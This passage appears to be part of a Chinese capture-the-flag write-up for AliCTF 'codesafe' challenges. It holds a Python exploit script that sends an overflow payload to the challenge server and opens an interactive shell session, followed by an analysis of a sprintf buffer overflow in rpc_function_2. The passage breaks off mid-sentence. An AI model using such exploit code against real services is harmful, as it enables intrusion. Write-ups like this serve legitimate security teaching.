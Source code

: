 ```

def up(x):
    return struct.unpack('<I', x)[0]

def readuntil(f, delim='msg?\n'): 
    d = ''
    while not d.endswith(delim): 
        n = f.read(1)
        if len(n) == 0: 
            print 'EOF'
            break 
        d += n
    return d[:-len(delim)]

host = 'codesafe100.alictf.com' 
port = 30000

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
s.connect((host, port))
f = s.makefile('rw', bufsize=0)

token = '此处 user_token' 

temp = shortp(198)
temp += 'A' * 512

payload = chr(len(token)) # len_token 
payload += token # token
payload += chr(1) # function_id 
payload += netp(len(temp)) # len_data 
payload += temp

f.write(payload)

t = telnetlib.Telnet() 
t.sock = s 
t.interact()

```

￼￼ ￼￼￼￼###200pt

在 rpc_function_2 里,看到最后有一句:

```
sprintf(buffer,"%s has been parsed, tag:%s, value:%s.", line, pr.t, pr.v); 
```

这里隐约就有一些不好的味道了,再翻 到函数的开头仔细检查下 buffer 的长度,是 512 字节,而后面的参数里的 line 就是 request->data,长度<=512。所以这里的 sprintf 是可以造成 buffer 溢出 的,剩下的只是要让程序的逻辑能够走到这一句语句即可。

根据前面的代码分析,提交的 line 需要满足形如”a = b”这样的格式,并且 b 需要使得 function0 返回一个非 0 值。再根据阅读 function0 的代码,能够知道 b 需 要是一个长度为 16 的仅由数字组成的字符串,经过后面的一系列运算后需要使得 s % 10 == 0 这个判断为真,而 b 只要为 16 个 0 就可以满足条件,所以最终 提交的 line 为
